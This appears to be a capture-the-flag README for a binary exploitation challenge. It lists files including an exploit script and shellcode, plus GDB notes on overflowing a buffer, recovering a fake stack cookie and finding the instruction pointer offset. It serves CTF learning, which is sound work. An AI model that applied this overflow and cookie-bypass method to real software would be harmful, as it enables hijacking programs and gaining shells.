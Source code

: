 ### Files ###
''Disassembly:'' - A commented disassembly of the main function of precision exec

''exploit.py'' - A python program that exploits the precision exec

''intel'' - Some things i grabbed off the server once i had a shell

''precision_a8f6f0590c177948fe06c76a1831e650'' - The executable to exploit

''rootshell'' - Shellcode that spaws a shell. It attempts root but that didnt
seem to work on the remote server. Not supprising.

### My notes for exploiting the executable ###
; >>> break *0x8048583
; The plan is to overrun the buffer with a cyclic pattern then once we hit
; the breakpoint, Examin the memory stored in $esp+0x98.
; >>> x /w $esp+0x98 << Identify the offset in the payload - CYCLIC VALUE 0x62616168 (1650549096)
;  *** STACK COOKIE OFFSET : 128
;
; Next, move forward 2 instructions then test the values in the FP stack
; >>> info registers st0 st1
; ST0 should have : 0x400580aaaa3ad18d2800 stored
; ST1 will be some interpriation of our cyclic pattern. fldl is magaling it some how.
;
; Run the application again without overruning the input buffer. At the break point
; we need to grab the correct stack cookie value: 
; >>> x /w $esp+0x98 << Identify the stack cookie bytes.
;  *** STACK COOKIE BYTES: 0xa5, 0x31, 0x5a, 0x47, 0x55, 0x15, 0x50, 0x40
;
; Next, send the cyclic pattern up with the stack cookie spliced in.
;
; Identify the offset that ends up in the instruction pointer.
; >>> break *0x80485d7
; step forward 1 instruction.  GDB will tell you it cannot read memory at [SOME VALUE] - CYCLIC PATTERN in IP: 0x6261616d
;  *** INSTRUCTION POINTER OFFSET : 148
;
; OTHER NOTES:
; Default stack cookie value @ esp+0x98 : 0x475a31a5, 0x40501555
; Value in ST0 : 0x400580aaaa3ad18d2800
